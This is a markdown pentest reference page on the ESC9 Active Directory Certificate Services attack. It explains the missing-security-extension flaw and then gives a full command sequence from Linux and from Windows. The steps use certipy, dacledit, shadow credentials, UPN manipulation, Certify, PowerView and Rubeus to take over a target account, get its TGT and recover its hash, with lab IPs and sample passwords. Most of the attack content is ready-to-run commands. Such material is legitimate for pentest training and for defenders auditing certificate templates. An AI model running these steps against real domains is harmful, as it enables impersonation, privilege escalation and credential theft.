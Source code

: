 ```yaml
---
description: ESC | Active Directory Certificate Services
---
```


# ESC9

If the **`msPKI-Enrollment-Flag`** attribute of a certificate template includes the `CT_FLAG_NO_SECURITY_EXTENSION` flag, it prevents the addition of the `szOID_NTDS_CA_SECURITY_EXT` security extension to certificates issued from that template.

An attacker can exploit the loophole in certificate mapping by misusing privileges and manipulating a user’s **User Principal Name (UPN).**

1. **UPN Manipulation**\
   User Principal Name can be changed to match the UPN of another account or target.
2. **Requesting a certificate**\
   Using those legit credentials or original UPN, request a certificate on behalf of that user.
3. **Certificate Mapping**\
   Associate issued certificate matching the altered UPN.
4. **Result**\
   Attacker has valid certificate mapped to target account.

```bash
# Find vulnerabilities
certipy-ad find -u 'zen@lab.local' -p 'Password123!' -dc-ip 10.129.228.236 -vulnerable -stdout

# Showing
[!] Vulnerabilities                                             
      ESC9                              : 'LAB.LOCAL\\Domain Users' can enroll and template has no security extension 
```

If we want to compromise user3 we need to have FullControl rights over any account. We can modify user2's UPN to match our target user3's UPN. Then request certificate as user2 and we will receive the certificate for user3.

#### Find FullControl rights account

```bash
dacledit.py -action read -dc-ip 10.129.205.199 lab.local/blwasp:Password123! -principal blwasp -target user2
```

#### Add extra password with Shadow Credentials

```bash
certipy shadow auto -u 'BlWasp@lab.local' -p 'Password123!' -account user2
```

#### Modify UPN user2 to target UPN of user3.

```bash
certipy account update -u 'BlWasp@lab.local' -p 'Password123!' -user user2 -upn user3@lab.local
```

#### Request certificate with user2

```bash
certipy req -u 'user2@lab.local' -hashes 2b576acbe6bcfda7294d6bd18041b8fe -ca lab-LAB-DC-CA -template ESC9
```

#### Revert back to user2

```bash
certipy account update -u 'BlWasp@lab.local' -p 'Password123!' -user user2 -upn user2@lab.local
```

#### Authenticate with certificate and get TGT and hash

```bash
certipy auth -pfx user3.pfx -domain lab.local
```

### <mark style="color:yellow;">ESC9 Abuse from Windows</mark>

Enumeration with Certify.exe

```powershell
# Certify
.\Certify.exe find /vulnerable

# Check if registry is set to 1
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc

# Or CertificateMappingMethods is 0x4
reg query HKLM\System\CurrentControlSet\Control\SecurityProviders\Schannel\

# With powerview check privileges
$blwasp=(Get-DomainUser -Identity blwasp)
Get-DomainObjectAcl -LDAPFilter "(&(objectClass=user)(objectCategory=person))" -ResolveGUIDs | ? {($_.ActiveDirectoryRights -contains "GenericAll" -or $_.ActiveDirectoryRights -contains "GenericWrite") -and $_.SecurityIdentifier -eq $blwasp.objectsid}
```

#### Attack from Windows

```powershell
# Password reset
Set-DomainUserPassword -Identity user2 -AccountPassword $((ConvertTo-SecureString 'Newpassword123!' -AsPlainText -Force)) -Verbose

# Change user2 UPN to match user 3
Set-DomainObject user2 -Set @{'userPrincipalName'='user3@lab.local'} -Verbose

# Request Certificate using ESC9 and alt SAN user3
.\Certify.exe request /ca:LAB-DC.lab.local\lab-LAB-DC-CA /template:ESC9 /altname:user3

# Conver to pfx
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in .\user3.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out user3.pfx

# Get ticket TGT as user3
.\Rubeus.exe asktgt /user:user3 /certificate:user3.pfx /getcredentials /nowrap
```

